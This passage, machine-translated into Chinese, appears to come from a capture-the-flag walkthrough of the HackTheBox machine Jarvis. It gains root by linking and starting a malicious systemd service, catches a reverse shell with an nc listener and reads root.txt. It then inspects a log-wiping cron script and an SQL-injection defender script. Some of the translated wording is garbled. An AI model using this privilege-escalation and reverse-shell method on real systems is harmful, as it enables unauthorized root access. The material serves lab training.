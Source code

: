     [Install]
    WantedBy=multi-user.target
    EOF
    

现在我用来链接这个服务：`systemctl`

    pepper@jarvis:/dev/shm$ systemctl link /dev/shm/0xdf.service
    

现在启动服务，让侦听器准备好捕获 shell：`nc`

    pepper@jarvis:/dev/shm$ systemctl start 0xdf
    

我的听众得到一个外壳：

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37160.
    id
    uid=0(root) gid=0(root) groups=0(root)
    

升级我的外壳后，我会抓住：`root.txt`

    root@jarvis:/root# cat root.txt 
    d41d8cd9...
    

## 超越根

此外，还有两个脚本：`root.txt``/root/`

    root@jarvis:/root# ls
    clean.sh  root.txt  sqli_defender.py
    

### clean.sh

`clean.sh`清空阿帕奇访问日志：

    root@jarvis:~# cat clean.sh 
    #!/bin/bash
    > /var/log/apache2/access.log
    

此脚本每 15 分钟运行一次：

    root@jarvis:~# crontab -l | grep -v "#"
     */15 * * * * /root/clean.sh
    

### sqli\_defender.py

`sqli_defender.py`是一个更长的蟒蛇脚本。我还可以看到它正在以root身份运行：

    root@jarvis:~# ps auxww | grep sqli_defender
    root        383  0.7  1.6  61916 16320 ?        Ss   08:29   0:06 python3 /root/sqli_defender.py
    